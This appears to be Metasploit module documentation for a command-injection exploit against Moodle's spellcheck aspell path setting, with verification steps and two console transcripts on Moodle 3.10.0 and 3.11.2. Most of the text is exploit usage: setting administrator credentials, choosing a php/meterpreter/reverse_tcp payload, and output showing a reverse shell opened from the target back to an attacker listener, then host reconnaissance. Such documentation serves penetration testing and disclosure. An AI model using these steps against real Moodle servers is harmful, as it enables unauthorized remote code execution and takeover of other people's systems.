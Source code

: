 ## Vulnerable Application

Moodle allows an authenticated administrator to define spellcheck settings via the web interface.
An administrator can update the aspell path to include a command injection. This is extremely
similar to CVE-2013-3630, just using a different variable.

This module was tested against Moodle version 3.11.2, 3.10.0, and 3.8.0. Based on the
Talos advisory: `2021-04-21 - Vendor updated documentation to suggest best practices after installation`,
it is unclear if Moodle will patch this.  Therefore it is unclear what the upper bounds
is on exploitation.

### Install

Moodle provides a step by step guide to install their software
[here](https://docs.moodle.org/311/en/Step-by-step_Installation_Guide_for_Ubuntu)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploits/multi/http/moodle_spelling_path_rce`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### Passowrd

Password of an administrator.

### Username

Username of an administrator. Defaults to `admin`

## Scenarios

### Moodle 3.10.0 on Ubuntu 20.04

```
[*] Processing moodle_spellcheck.rb for ERB directives.
resource (moodle_spellcheck.rb)> use exploits/multi/http/moodle_spelling_path_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (moodle_spellcheck.rb)> set username admin
username => admin
resource (moodle_spellcheck.rb)> set password Adminadmin1!
password => Adminadmin1!
resource (moodle_spellcheck.rb)> set targeturi /moodle-3.10.0/
targeturi => /moodle-3.10.0/
resource (moodle_spellcheck.rb)> set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
resource (moodle_spellcheck.rb)> set ReverseAllowProxy true
ReverseAllowProxy => true
resource (moodle_spellcheck.rb)> set lhost eth0
lhost => eth0
resource (moodle_spellcheck.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Moodle version 3.10 detected
[*] Authenticating as user: admin
[*] Updating aspell path
[*] Changing spell engine to PSpellShell
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56124) at 2021-08-29 10:03:37 -0400
[*] Sleeping 5 seconds before cleanup
[*] Authenticating as user: admin
[*] Removing RCE from settings

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```

### Moodle 3.11.2 on Ubuntu 20.04

```
resource (moodle_spellcheck.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (moodle_spellcheck.rb)> set username admin
username => admin
resource (moodle_spellcheck.rb)> set password Adminadmin1!
password => Adminadmin1!
resource (moodle_spellcheck.rb)> set targeturi /moodle-3.11.2/
targeturi => /moodle-3.11.2/
resource (moodle_spellcheck.rb)> set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set lhost eth0
lhost => eth0
resource (moodle_spellcheck.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Moodle version 3.11.2 detected
[*] Authenticating as user: admin
[*] Updating aspell path
[*] Changing spell engine to PSpellShell
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56130) at 2021-08-29 10:22:03 -0400
[*] Sleeping 5 seconds before cleanup
[*] Authenticating as user: admin
[*] Removing RCE from settings

meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
```
